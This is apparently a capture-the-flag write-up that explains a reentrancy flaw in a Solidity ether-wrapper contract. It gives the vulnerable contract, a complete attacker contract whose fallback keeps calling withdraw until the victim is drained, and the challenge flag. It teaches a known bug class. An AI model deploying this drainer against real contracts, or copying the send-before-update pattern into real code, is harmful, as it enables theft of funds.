


# Ready to hack

> Now that we're introduced, let's jump into it. This contract acts like a wrapper around $MEL.&nbsp;<br>
> We can't say it holds a gigantic amount of money, but it might be a kickstarter for you !<br>
> Of course, the contract belongs to a malicious organization, which is why we're hacking it.<br>
> Don't hack legit organizations.<br>
> Empty the contract from it's money to get the flag.

We start with a Solitidy smart contract we can ask to deploy to an address on the custom Ethereum like blockchain of the CTF.



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

/*
    This contract implements "WMEL" (Wrapped MEL). You get an ERC20 version of Melcoin where 1WMEL == 1MEL at all times.
    This is a beta version !
*/

// @dev : iHuggsy
contract WMEL
{
    mapping(address => uint) public balances;

    constructor () payable {}

    function deposit() external payable 
    {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public 
    {
        uint bal = balances[msg.sender];
        require(bal > 0);
        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");
        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) 
    {
        return address(this).balance;
    }
}
```

We can deposit some ether with the `deposit` function and later retrieve it with the `withdraw` function.

The latter is supposed to make sure we can retrieve only the amount of ether we gave to the contract earlier by checking our balance. Our goal is to steal every single ether the contract has, which is all the ether the other people have stored here.

The contract is making its transaction to us **before** setting our balance to zero, which makes it vulnerable to the [SWC-107, the re entrancy](https://swcregistry.io/docs/SWC-107).

So, why is this a problem if the transaction that give us our ether back is done before setting our balance to zero exactly ? The issue is that if a transaction is made to another smart contract, it will pause the current execution of the calling contract and the receiver contract will start executing its fallback function.<br>
The fallback function of a smart contract is the function executed when the caller either:

- wants to execute a function that does not exist in the contract
- just makes a transaction without asking to execute a particular function

Because the calling contract will pause its execution until the called contract returns, the called contract's balance in the calling contract will not be set to zero immediately.

We can then create a smart contract to exploit this behavior with two functions:

- a payable function to begin the attack, that will call `deposit` on the vulnerable contract with the ether received, then call `withdraw`, I called it `beginAttack`
- a fallback function that just checks the balance of the vulnerable contract and call `withdraw` if it's not empty

I also added a `getStolenBalance` function just to check after the attack that the amount stolen is all here as it should.

Here is my smart contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
import "./wmel.sol";

contract Attack {
    WMEL public victim;

    constructor(address _victimAddress) {
        victim = WMEL(_victimAddress);
    }

    function beginAttack() external payable {
        victim.deposit{value: 1 ether}();
        victim.withdraw();
    }

    function getStolenBalance() public view returns (uint) {
        return address(this).balance;
    }

    fallback() external payable {
        if (victim.getBalance() >= 1 ether) {
            victim.withdraw();
        }
    }
}
```

Deploy it, call its `beginAttack` function with a value of 1 ether, and you successfully emptied the balance of the vulnerable contract!<br>
I used Ethereum foundation's [Remix IDE](https://remix.ethereum.org/) for that.



All that's left to do is to click on the verify button on the website and we get the flag.

Flag: `Hero{@M_A_m3l_sT34l3r_Am_v3rY_AngR}`